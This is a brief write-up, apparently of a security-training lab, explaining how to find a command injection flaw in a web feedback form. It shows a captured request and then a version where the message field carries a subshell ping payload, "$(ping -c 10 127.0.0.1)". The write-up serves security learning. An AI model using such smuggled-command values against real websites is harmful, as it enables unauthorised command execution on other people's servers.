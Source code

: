 Lab is vulnerable to command injection from feedback functionality. 

If you open Firefox Developer Tools before sending out feedback you can see the request you're sending.

Example request would be something like this:

```
csrf	"V5nkxXcAKZ6cWUjHyMQMUHc3J9z9zs5o"
name	"asd"
email	"asd@asd.asd"
subject	"asd"
message	"asd"
```

You can try to inject a ping command to every single parameter.

But we can think a little and deduct that in order to display spaces to message body should be wrapped in quotes and we can inject a command in a subshell like this:

```
csrf	"V5nkxXcAKZ6cWUjHyMQMUHc3J9z9zs5o"
name	"asd"
email	"asd@asd.asd"
subject	"asd"
message	"$(ping -c 10 127.0.0.1)"
```
